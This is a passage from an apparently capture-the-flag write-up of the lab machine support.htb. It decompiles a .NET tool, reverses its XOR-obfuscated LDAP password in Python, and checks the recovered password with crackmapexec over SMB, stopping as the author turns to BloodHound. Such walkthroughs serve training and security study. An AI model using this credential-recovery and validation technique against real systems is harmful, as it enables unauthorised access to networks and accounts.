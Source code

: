 I think `UserInfo.exe.zip` would be useful for us.
By unzip it and we need to use `dotPeek` to decompile it. And this would be useful for us to check the existed password.

```
namespace UserInfo.Services
{
  internal class Protected
  {
    private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
    private static byte[] key = Encoding.ASCII.GetBytes("armando");

    public static string getPassword()
    {
      byte[] numArray = Convert.FromBase64String(Protected.enc_password);
      byte[] bytes = numArray;
      for (int index = 0; index < numArray.Length; ++index)
        bytes[index] = (byte) ((int) numArray[index] ^ (int) Protected.key[index % Protected.key.Length] ^ 223);
      return Encoding.Default.GetString(bytes);
    }
  }
}

```

Let's check it and try to crack it step by step by python:
```
python3
>>> from base64 import b64decode
>>> from itertools import cycle
>>> pass_b64 = b"0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
>>> key = b"armando"
>>> enc = b64decode(pass_b64)
>>> [e^k^223 for e,k in zip(enc, cycle(key))]
[110, 118, 69, 102, 69, 75, 49, 54, 94, 49, 97, 77, 52, 36, 101, 55, 65, 99, 108, 85, 102, 56, 120, 36, 116, 82, 87, 120, 80, 87, 79, 49, 37, 108, 109, 122]
>>> bytearray([e^k^223 for e,k in zip(enc, cycle(key))]).decode()
'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

Then we can use it verify creds:
```
crackmapexec smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'`

SMB         support.htb     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         support.htb     445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz

```

Whenever I find creds on Windows, I’ll run Bloodhound. Since I don’t have a shell, I’ll use the Python version:
